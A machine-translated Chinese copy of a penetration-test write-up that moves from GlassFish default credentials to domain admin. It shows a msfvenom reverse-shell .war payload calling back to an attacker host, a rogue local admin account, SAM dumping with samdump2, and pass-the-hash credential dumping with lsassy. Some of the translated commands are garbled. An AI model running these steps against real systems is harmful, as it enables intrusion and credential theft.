







# 3 小时后域名管理受损

> 原文：<https://infosecwriteups.com/domain-admin-compromise-in-3-hours-5778902604c9?source=collection_archive---------0----------------------->

大家好；我希望你喜欢我之前关于“[我如何在 30 秒](https://popalltheshells.medium.com/i-obtained-admin-access-via-account-activation-link-in-30-seconds-dd7f115ae1d2)内获得管理员权限”的博文——所以今天我给你带来另一个我最近发现的 ***关键*** 发现；这说明了**更改默认凭证**和**密码重用**的重要性。

—三个小时的列举和开发—

首先，我们都喜欢一些枚举。通过对目标进行简单的 nmap 扫描，我发现了一个有趣的应用服务器，名为**Sun GlassFish Enterprise Server**。经过一些调查和研究，我发现这个应用程序负责在企业环境中部署 web 应用程序。哇哦。好了，有了这些信息，我们知道这台服务器负责部署公司的至少一些 web 应用程序。通过使用我们的受信者 Google，我们可以发现 Sun GlassFish 的默认凭证是 **admin** ，密码是 **adminadmin。**有了这个新发现的信息；我能够获得对负责在客户环境中部署 web 应用程序的应用程序的管理权限。

对我来说最突出的一点是这个应用程序需要**。war** 文件；它负责分发 JAR 文件、JavaServer 页面、Java Servlets、Java 类和其他构成 web 应用程序(Wikipedia)的文件的集合。

你可能知道也可能不知道 **msfvenom** 可以造一个**。战争**逆转 HTTPS 有效载荷，我就是这么做的。

> MSF venom-p<payload>LHOST =<ip>LPORT = 443-f war > payload . war</ip></payload>

一旦我的恶意 war 文件被创建，我们需要将它上传到应用程序并“部署”它以触发受影响的服务器执行有效负载；同时，我在我的攻击机器上设置了一个监听器。

一旦部署，我们将获得一个外壳。

运行“whoami”命令始终是一个好习惯(当您有 RCE 时)。这将显示您在该系统上拥有哪些特权。在这种情况下；我非常幸运。

现在我们有了 NT 系统特权，我们几乎拥有了这个系统，可以做任何我们想做的事情。下一步是创建一个本地用户，并将该用户添加为本地管理员；通过这样做，我能够使用我新创建的本地管理员帐户 RDP 到受影响的服务器。

这就是了。

就现在；我们只有一个本地管理员帐户，我们如何利用它在网络中横向移动？嗯，有很多方法可以做到这一点；但是我用了我认为最简单的方法(不是 mimikatz，因为我不想触发警报)。

我想到的第一件事是获取 SAM 和系统文件的副本，并使用一个名为 **samdump2** 的工具来获取所有其他本地帐户的 NTLM 哈希。然而，使用 Windows GUI 复制 SAM 和系统文件有时不起作用(当时对我不起作用)。

这就是命令行发挥作用的地方；在 CMD 以管理员身份打开的情况下，我能够输入以下命令来转储 SAM 和系统文件。

一旦完成，我就将这些文件过滤到我的 Kali linux 中并运行

> **samdump2 系统 SAM**

作为回报，给了我本地管理员账户的散列。

—密码重复使用是一件常见的事情，伙计们—

现在我们有了管理员帐户的 NTLM 散列，系统管理员为他们的 DC 和环境中的其他服务器重用相同密码的可能性有多大？

如果其他服务器有相同密码的管理员帐户，在我的 Kali 上使用诸如 **lsassy** 这样的工具允许我利用管理员哈希来转储其他用户的哈希和明文密码的 lsass 进程。

> **lsassy<target IP/RANGE>-u USER-m proc dump-H<has H value>-O proc dump _ path =<到 procdump64.exe 的路径>**

幸运的是，其中一个服务器明文保存了一个用户的凭证；哪个属于**域管理员**组

一旦这已经完成；接下来的步骤是清理工件，在网络中横向移动，并暴露可能“敏感”的文件，作为展示使用默认凭证和密码重用的影响的最后尝试。

黑客快乐！